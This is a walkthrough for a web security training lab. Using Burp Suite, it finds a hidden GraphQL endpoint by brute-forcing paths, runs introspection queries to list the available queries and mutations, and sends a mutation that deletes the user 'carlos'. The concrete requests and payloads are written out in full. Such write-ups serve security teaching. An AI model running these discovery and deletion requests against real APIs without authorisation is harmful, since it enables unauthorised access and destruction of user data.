 # Lab: Finding a hidden GraphQL endpoint

The user management functions for this lab are powered by a hidden GraphQL endpoint. You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.

To solve the lab, find the hidden endpoint and delete `carlos`.

## Steps

* Open Burp Suite and visit the target website
* Click on any get request and send it to the intruder and repeater
* Brute force the path using the below list

```
/graphql
/api
/api/graphql
/graphql/api
/graphql/graphql
```

* In the repeater add the /api endpoint with a query

```
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

* Switch to the GraphQL tab in repeater
* Get all the available queryType&#x20;

```
query{__schema

{queryType{fields{name description}}}

}
```

* Get the available mutation type

```
query{__schema

{mutationType{fields{name description}}}

}
```

* Get the user Carlos ID

```
query{__schema

{queryType{fields{name description}}}

getUser(id:3)
{
	id
	username
}
}
```

* Delete the user carlos using the mutation type

```
mutation{

	deleteOrganizationUser(input:{id:3})
	{
		user {id}
	}
}

```

* Congrats! You have solved the lab

{% hint style="info" %}
Note: To do this you have to URL encode and the requests.
{% endhint %}

